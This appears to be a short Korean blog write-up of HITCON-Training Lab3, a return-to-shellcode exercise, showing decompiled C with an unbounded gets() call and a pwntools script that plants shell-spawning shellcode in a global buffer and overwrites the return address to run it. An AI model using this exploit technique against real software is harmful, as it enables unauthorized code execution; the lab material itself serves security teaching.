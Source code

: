 ```yaml
---
title: "[HITCON-Training]Lab3"
date: 2019-11-17
tags: [hitcon]
categories: [HITCON-Training]
---
```


return to shellcode 문제다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+1Ch] [ebp-14h]
 
  setvbuf(stdout, 0, 2, 0);
  printf("Name:");
  read(0, &name, 50u);
  printf("Try your best:");
  return (int)gets(&s);
}
```

name은 bss에 저장된 전역변수이다.

name에 shellcode를 넣고 gets로 return을 name으로 해주면 shellcode가 실행될거다.

```python
from pwn import *
 
e = ELF('./ret2sc')
p = process('./ret2sc')
 
p.sendlineafter(':',asm(shellcraft.i386.sh()))
pay = 'A'*(0x1c+4)
pay += p32(0x0804A060)
p.sendlineafter(':',pay)
p.interactive()
```

